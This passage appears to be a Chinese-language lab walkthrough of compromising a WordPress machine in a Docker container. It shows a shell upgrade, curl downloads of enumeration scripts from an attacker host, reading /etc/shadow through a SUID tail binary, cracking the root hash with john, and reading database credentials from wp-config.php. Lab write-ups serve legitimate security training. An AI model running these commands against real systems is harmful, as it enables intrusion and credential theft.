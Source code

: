成功获得反弹shell！



--------------------------------------------
--------------------------------------------
5、内部信息收集

python -c "import pty;pty.spawn('/bin/bash')"

curl -O http://192.168.253.138:8081/linpeas.sh

cp ../LinEnum.sh .
curl -O http://192.168.253.138:8081/LinEnum.sh


[-] SUID files:
-rwsr-xr-x 1 root root 68584 Feb 22  2017 /usr/bin/tail

tail -cG /etc/shadow
-c<数目> 显示的字节数

root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:17951:0:99999:7:::


--------------------------------------------
--------------------------------------------
6、爆破秘钥

john 1
john             (root)


su root
john


--------------------------------------------
--------------------------------------------
7、root信息枚举

通过枚举脚本发现这是docker容器！

[-] ARP history:
252fa8cb1646.experimental_default (172.18.0.4) at 02:42:ac:12:00:04 [ether] on eth0
experimental_db_1.experimental_default (172.18.0.2) at 02:42:ac:12:00:02 [ether] on eth0
localhost (172.18.0.1) at 02:42:cb:76:37:a5 [ether] on eth0

在/var/www/html目录下发现：
cat wp-config.php

 MySQL database username */
define('DB_USER', 'wordpress');

/** MySQL database password */
define('DB_PASSWORD', 'wordpress');

/** MySQL hostname */
define('DB_HOST', 'db:3306');
